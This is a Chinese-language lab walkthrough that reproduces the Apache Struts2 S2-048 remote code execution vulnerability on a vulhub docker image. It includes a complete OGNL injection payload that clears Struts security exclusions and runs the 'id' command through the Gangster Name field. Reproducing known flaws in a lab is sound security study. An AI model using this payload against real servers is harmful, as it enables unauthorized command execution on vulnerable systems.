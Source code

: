 ### 1、影响版本：2.0.0～2.3.32，S2-048远程代码执行漏洞

### 2、启动java Structs的docker镜像
docker-compose.yaml
```yaml
version: '2'
services:
 struts2:
   image: vulhub/struts2:2.3.32-showcase
   ports:
    - "8082:8080"
```

### 3、访问Structs：http://172.16.120.252:8082/showcase
![image](https://github.com/498946975/Security/blob/master/images/image-20211226162559111.png)

### 4、在Gangster Name字段执行代码
也是可以执行主机的命令，如下面执行命令：id
```js
@java.lang.Runtime@getRuntime().exec('id'). getInputStream()
```

整体代码如下
```js
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm): ((#container=#context['com.opensymphony.xwork2.ActionContext.container']). (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)). (#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()). (#context.setMemberAccess(#dm)))). (#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id'). getInputStream())).(#q)}
```
![image](https://github.com/498946975/Security/blob/master/images/image-20211226163059796.png)


5、Submit后查看结果
![image](https://github.com/498946975/Security/blob/master/images/image-20211226163137550.png)


